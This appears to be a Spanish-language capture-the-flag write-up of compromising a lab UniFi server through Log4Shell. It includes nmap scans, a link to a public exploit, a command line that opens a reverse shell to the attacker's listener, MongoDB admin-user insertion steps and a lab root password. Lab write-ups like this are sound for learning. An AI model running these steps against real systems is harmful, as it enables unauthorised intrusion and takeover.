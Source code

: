 Ocupamos el nmap para poder enumerar los puertos con ` nmap -p- --open -sS --min-rate 500 -vvv -n -Pn 10.129.96.149 -oG allPorts`

![](https://lh7-us.googleusercontent.com/gpSn4OlDRhC0sWWYT0CC4jjRZtKAvBxibG-_0QF7o6z_440W099Vv8kvZ3ckRGBAAKCbnKDEWDBMlF4JON_qkF3VYtzmL3GWzGXIau0UwbXbDydQ5KEuyJJYPYlZSxoNDq7Ufr_XBZHWY_bq1gPfxVc)
luego de eso ocupamos nmap para ocupar los scripts más conocidos `nmap -p22,6789,8080,8443,8843,8880 -sCV -v -n -PN 10.129.96.149 -oN targeted` 
![](https://lh7-us.googleusercontent.com/E0W4h0bPHAkw-RLMJjjpn4B1lnH9HcVGa9bweyFNP51x0epytKrtp6dmJtfzI0Fek4HNsaL32BUhsdBCp4lPk2PfbBwBmFTxH3bqvGgeq-LJRjq_bNq_OOQjE3d6sfE8LoopRIMsYNLmhXJouOse5Ok)

![](https://lh7-us.googleusercontent.com/f0MgPQzTx0O5dJiEcYYMs7f86GNXFxk83MEkVcWuCaWf4pi9N1stPzPOosH-W5ETmUVu6UrVxi7wR61bIQD_2zbDQI17o_gEFVvaP1EYZsDEVTa621M8-QIBK6Y0pucfBY8M37lldRSJ1cHl5AfUuFk)

![](https://lh7-us.googleusercontent.com/bSU3Vnc-fYe7tHetbrY7VRg40xiS2w2FcGw-tDWa5t0mSLA5m7mzuIGNKv0h2V2TXMYGtq-owNf9mV6cE_xHGRYtI7qt973XvnQ5FKURe2A1366NOKhYXpmnx4KVIjGEIxfVzhXRdTEHsmRl1vqYwiQ)

![](https://lh7-us.googleusercontent.com/ZssYPPHue7oV_1Q-bWLMptQZOGQIzKy2f_7N8-cLX--xI5218tiZtObcYBTylM_UVojXbuCk0u4fYjFWd7uX8pMqaCqspBpgqJKiJgUnPqo5qBch04DSSHc0WlLzMAoeBBj5kHkY8Lj6WTJPwmExqQ4)

una de las cosas que podemos hacer es poner la ip de la pagina con el puerto 8443 y nos mandara a una pagina de login: 
![](https://lh7-us.googleusercontent.com/1ktVXSzNxfA_HS3AmGNU0Y8JK_IqlVe1jlO4WjP7Ypj3a5zRC06KTjqMnaI8V8ooeFHOrWQUY-8GOxQdtHGhNpvhrcdRIUY9hoLl90KP1RT2phk9IHBMy0ba4o1jW-MXPF6fLwBYCjbwOSOAfZ_n0OE)
con Log4unifi podemos sacar que podemos poner como carga de del login. [https://github.com/puzzlepeaches/Log4jUnifi](https://github.com/puzzlepeaches/Log4jUnifi)(pagina para el exploit)
![](https://lh7-us.googleusercontent.com/aF8_zc8Mr-OYFaSZ0rjv4Br4Zz7vO876_VWivMVtRsuzJHPysCxb2o2WD0SBsV5H8A2UZpeGi1WS2196EKeRwpeZ4UFGnikt8Bq_0CzbNXNoAmpaaIGiqEl18j9UM4rDpM95F_WMYS_XGPF8FGBlH_E)
estando dentro de la pagina de login, nos conectamos a burpsuite
![](https://lh7-us.googleusercontent.com/1es3nxCmHQcx71g8SVjtZn0d2JD2CLRY5o-fSuf7ezuOAYZRyzl-x3Fc6jsxz42FgjG9mXFVEIR5BZ7vLj7OK6qCMNskatLVWUc5ZmDSMVYUXm8xSsF3oVMSnIehOPEbgKoRkYWfWOi5kDIYQaVjtOQ)
si hacemos todo lo que dice la instalación y hacemos  todo lo que nos dice la forma de usarlo podremos tener acceso a una shell inversa: 
```
python3 exploit.py -u http://10.129.161.99:8080 -i 10.10.15.130 -p 9000 

-u http://10.129.161.99:8080 la url de la pagina
-i 10.10.15.130 la ip que va a interceptar la peticion 
-p 9000 el puerto que va a ocupar
```
![[Pasted image 20240131164250.png]]
obtenemos lo siguiente:
![[Pasted image 20240131164310.png]]
le hacemos un pequeño tratamiento a la tty con el script: 
![[Pasted image 20240131170935.png]]
para saber en que puerto corre mongodb podemos hacer un `ps aux | grep [app que se quiere buscar]`
![[Pasted image 20240131202133.png]]
podemos conectarnos a mongo de la siguiente manera:

`mongo --ports 21117 ace`

de la siguiente manera podemos insertar un usuario con privilegios de administrador: 
![[Pasted image 20240131211131.png]]
con el db.admin.find() podemos asegurarnos de que se haya agregado nuestro usuario correctamente: 
![[Pasted image 20240131211413.png]]
`clave de root NotACrackablePassword4U2022 
podemos encontrar la flag en la carpeta root.txt
![[Pasted image 20240131213603.png]]
